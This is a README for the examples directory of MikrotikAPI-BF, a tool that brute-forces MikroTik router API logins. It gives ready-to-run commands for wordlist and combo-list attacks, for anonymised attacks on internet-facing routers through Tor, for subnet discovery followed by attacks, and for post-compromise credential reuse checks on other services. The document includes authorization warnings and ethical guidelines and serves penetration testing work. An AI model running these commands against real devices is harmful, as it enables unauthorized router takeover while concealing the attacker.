 # MikrotikAPI-BF Examples

This directory contains practical examples demonstrating different use cases of MikrotikAPI-BF.

## 📁 Files

### Basic Examples
- `example_basic.sh` - Simple single credential test
- `example_wordlist.sh` - Using username and password wordlists
- `example_combo.sh` - Using combo dictionary (user:pass)

### Advanced Examples
- `example_stealth.sh` - Stealth attack through Tor proxy
- `example_discovery.sh` - Network discovery + automated attacks
- `example_validation.sh` - Post-login service validation
- `example_config.sh` - Using YAML configuration file
- `example_export.sh` - Exporting results in multiple formats

### Wordlists
- `usernames.txt` - Sample username list
- `passwords.txt` - Sample password list
- `combos.txt` - Sample combo list (user:pass)
- `found_credentials.txt` - Sample of found credentials for validation

## 🚀 Usage

### Make scripts executable
```bash
chmod +x *.sh
```

### Run examples
```bash
# Basic attack
./example_basic.sh

# With wordlists
./example_wordlist.sh

# Stealth mode
./example_stealth.sh

# Network discovery
./example_discovery.sh
```

## ⚠️ Important Notes

1. **Legal Warning**: Only use these examples on systems you own or have explicit permission to test.

2. **Target Configuration**: Update the `-t` parameter in each script with your actual target IP.

3. **Wordlists**: The provided wordlists are samples. For real audits, use comprehensive wordlists like:
   - SecLists
   - RockYou
   - Custom generated lists

4. **Tor Setup**: For stealth examples, ensure Tor is installed and running:
   ```bash
   sudo apt install tor
   sudo service tor start
   ```

5. **Dependencies**: Install all requirements:
   ```bash
   pip install -r ../requirements.txt
   ```

## 📝 Creating Custom Examples

### Template
```bash
#!/bin/bash

echo "=== My Custom Example ==="

python ../mikrotikapi-bf.py \
  -t YOUR_TARGET \
  -d YOUR_WORDLIST \
  --YOUR_OPTIONS

echo "Done!"
```

### Common Options
```bash
# Performance
--threads 5          # Use 5 concurrent threads
--seconds 3          # Wait 3 seconds between attempts
--timeout 10         # Connection timeout

# Output
--progress           # Show progress bar
--export json,csv    # Export results
-v                   # Verbose mode
-vv                  # Very verbose (debug)

# Proxy
--proxy socks5://127.0.0.1:9050  # Use Tor
--proxy http://proxy:8080         # Use HTTP proxy

# Validation
--validate ftp,ssh,telnet         # Test services
```

## 🎯 Real-World Scenarios

### Scenario 1: Internal Network Audit
```bash
# 1. Discover all Mikrotik devices
python ../mikrotik-discovery.py -n 10.0.0.0/8 -o internal_targets.json

# 2. Test weak passwords
python ../mikrotikapi-bf.py -t $(jq -r '.devices[0].ip' internal_targets.json) \
  -u users.txt -p common_passwords.txt --export csv
```

### Scenario 2: Internet-Facing Router
```bash
# Through Tor for anonymity
python ../mikrotikapi-bf.py \
  -t public.target.com \
  -d large_combos.txt \
  --proxy socks5://127.0.0.1:9050 \
  --threads 1 \
  --seconds 15 \
  --max-retries 3
```

### Scenario 3: Post-Compromise Validation
```bash
# After finding credentials, test on other services
python ../mikrotikapi-bf.py \
  -t 192.168.1.1 \
  -U admin \
  -P found_password \
  --validate ftp,ssh,telnet,http \
  --export-all
```

## 🐛 Troubleshooting

### Connection Timeout
```bash
# Increase timeout
--timeout 15
```

### Proxy Issues
```bash
# Test proxy first
curl --proxy socks5://127.0.0.1:9050 https://check.torproject.org
```

### Too Many Errors
```bash
# Enable circuit breaker
--circuit-breaker

# Or reduce threads
--threads 1
```

## 📚 Learning Resources

- [Mikrotik RouterOS Manual](https://wiki.mikrotik.com/)
- [OSCP Preparation](https://www.offensive-security.com/pwk-oscp/)
- [Pentesting Networks](https://pentestbook.six2dez.com/)

## 🤝 Contributing

Have a cool example? Submit a PR with:
1. Shell script with clear comments
2. Expected output description
3. Security considerations

## 📄 License

These examples are released under the same MIT license as the main project.

## ⚠️ Ethical Guidelines

- ✅ Test on authorized targets only
- ✅ Document all findings properly
- ✅ Report vulnerabilities responsibly
- ❌ Never attack without permission
- ❌ Don't share unauthorized access
- ❌ Respect privacy and data laws


